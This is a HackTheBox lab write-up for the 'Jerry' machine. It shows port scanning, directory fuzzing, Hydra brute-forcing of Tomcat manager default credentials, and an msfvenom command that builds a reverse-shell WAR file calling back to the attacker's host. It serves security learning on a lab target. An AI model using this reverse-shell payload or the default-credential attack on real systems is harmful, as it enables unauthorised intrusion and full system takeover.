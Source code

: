 # HTB - Jerry

#### Ip: 10.10.10.95
#### Name: Jerry
#### Rating: Easy

------------------------------------------------

![Jerry.png](../assets/jerry_assets/Jerry.png)

### Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.95   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 12:25 CDT
Nmap scan report for 10.10.10.95
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Ok interesting, looks like only one port open, which is pretty rare for a Windows machine. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:

![nmap_scan.png](../assets/jerry_assets/nmap_scan.png)

Looks like this is running Apache Tomcat, which usually hosts a login form in the `/manager` directory. Lets go ahead and kick off a directory fuzzing scan to see if there is anything interesting we can find:

```text
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/22 12:31:07 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Great! Navigating to the /manager directory in the browser I'm met with a login prompt:

![login_page.png](../assets/jerry_assets/login_page.png)

### Brute Forcing

Based on past experience I know that Tomcat has a few different default passwords that are used during setup, and sometimes Administrators fail to change these credentials. Lets use Hydra to try and brute force these credentials, but rather than just using the standard rockyou.txt wordlist, in this case I'll try something more targeted to the specific service. There is a phenomenal wordlist package called SecLists available for download at https://github.com/danielmiessler/SecLists. This package contains multiple lists for directory fuzzing, wordlists for usernames and passwords, and more. Specifically of interest for us on Jerry, it also contains a list featuring default credentials for Tomcat. 

To me it always makes sense to try more targeted wordlsists first, and for a couple different reasons.

1. Just for the sake of my own time. Take a look at the wordcounts for the Tomcat Default Credentials list vs something like rockyou:

![wc_list.png](../assets/jerry_assets/wc_list.png)

Hydra can blaze through the Tomcat list nearly instantly, while rockyou would take hours and hours. Starting more simple and targeted and increasing your net as needed seems like the best path here. Not to mention that highly specific credentials may not even exist at all in rockyou.

2. While not relevant on a HTB machine, throwing something like rockyou against a login page would generate a HUGE amount of network traffic and would likely be detected quickly. While brute forcing isn't stealthy by nature, the logic follows that fewer login attempts generates less traffic and noise, which is less likely to be detected.

So all that said lets kick off Hydra against the login page:

![hydra_bf.png](../assets/jerry_assets/hydra_bf.png)

Nice! Hydra has found two possible sets of credentials. The first pair of admin:admin turned out to be a false positive (Hydra is great, but not perfect after all), but the credentials tomcat:s3cret worked great. We can now login to the /manager page. From here it should be a breaze to get a working shell on the machine.

Scrolling down the page we see  there is an option to upload and deploy a .war file.

![war_upload.png](../assets/jerry_assets/war_upload.png)

This will be the ticket onto the machine. Lets go ahead and generate a reverse shell .war file using msfvenom:

### Exploitation

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > rev_shell.war
```

After uploading the file and deploying it, I can see my rev_shell in the applications list. Making sure I have a netcat listener set up on port 443, I can catch a shell back by simply clicking on rev_shell, which forwards me to http://10.10.10.95:8080/rev_shell/.

Taking a look at my listener I see it worked, and I now have a shell as nt\authority system, which also means no privilege escalation needed!

![nc_shell.png](../assets/jerry_assets/nc_shell.png)

Navigating to the Administrators desktop I see that both flags are in the '2 for the price of 1.txt' file:

![both_flags.png](../assets/jerry_assets/both_flags.png)

### Something Extra

Funnily enough, in this case, brute forcing wasn't even needed. After a failed login attempt at /manager, we are redirected to a 403: Access Denied page, which contains some 'helpful' instructions:

![access_denied.png](../assets/jerry_assets/access_denied.png)

We can see here the default (but working) credentials listed as an example. To me, it always makes sense to start simple and throw a quick admin:admin or admin:password at a login page, or to try any example credentials you find before kicking off a brute forcing or dictionary attack.

### Key Takeaways

- As a user or administrator, make sure you always change your default credentials when setting up services. Conversely, as an attacker, it's always a good idea to try known default credentials or other easy quick wins (root:root, admin:password, etc), before getting too technical or trying noisy methods like brute forcing. 

-  On a similar note, it always makes sense to try simpler, more targeted attacks before resorting to more complex or less specific attack vectors. Cast a small net at first, and increase in complexity and in scope only as needed.

- Lastly, SecLists is your friend, and very much worth downloading and exploring.

Thanks for following along!

-Ryan

---------------------------------------------------------------------------------------------
